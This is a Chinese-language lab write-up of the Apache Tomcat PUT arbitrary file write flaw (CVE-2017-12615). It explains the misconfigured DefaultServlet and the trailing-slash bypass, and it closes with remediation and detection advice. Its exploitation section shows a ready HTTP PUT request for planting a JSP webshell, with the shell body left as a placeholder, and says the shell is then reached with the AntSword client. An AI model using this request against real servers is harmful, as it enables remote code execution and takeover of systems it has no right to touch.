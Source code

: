 ```yaml
---
category: 网络安全
tag: 漏洞分析
---
```


# 漏洞名称：Tomcat PUT方法任意写文件漏洞


---

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

---

Apache Tomcat是美国阿帕奇（Apache）软件基金会下属的Jakarta项目的一款轻量级Web应用服务器，它主要用于开发和调试JSP程序，适用于中小型系统。部分版本的Tomcat启用HTTP PUT请求方法时，远程攻击者可以构造恶意请求利用该漏洞向服务器上传包含任意代码执行的jsp文件，并被服务器执行该文件，导致攻击者可以执行任意代码。

---

### 漏洞危害

攻击者有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件，之后JSP 文件中的代码将能被服务器执行。

---

### 影响范围

7.0.0<=Version <=7.0.79

---

## 漏洞原理

Tomcat 的 Servlet 是在 conf/web.xml 配置的，通过配置文件可知，漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件：

```
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
<init-param><param-name>readonly</param-name><param-value>false</param-value></init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```

当后缀名为 .jsp 和 .jspx 的时候，是通过JspServlet处理请求的。例如`1.jsp `（末尾有一个空格）并不能匹配到 JSP Servlet，而是会交由default Servlet去处理。

```
<!-- The mapping for the default servlet -->
    <servlet-mapping>
        <servlet-name>default</servlet-name>
        <url-pattern>/</url-pattern>
    </servlet-mapping>

    <!-- The mappings for the JSP servlet -->
    <servlet-mapping>
        <servlet-name>jsp</servlet-name>
        <url-pattern>*.jsp</url-pattern>
        <url-pattern>*.jspx</url-pattern>
    </servlet-mapping>
```

虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用`/`）来绕过了限制。


---

### 靶机环境

vulhub/tomcat/CVE-2017-12615

---

### 利用方式 1

使用PUT请求发送以下内容：

```
PUT /1.jsp/ HTTP/1.1
Host: 192.168.1.189:8090
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 958

--jsp shell--
```

![02](./img/tomcat_CVE-2017-12615/02.png)

然后利用蚁剑进行连接：

![01](./img/tomcat_CVE-2017-12615/01.png)

### 

---


## 威胁防护建议

---

### 用户处置建议

将 conf/web.xml 中对于 DefaultServlet 的 readonly 设置为 true

---

### 安全产品检测建议

检测PUT形式发送后缀名为jsp的请求

检测jsp格式的木马

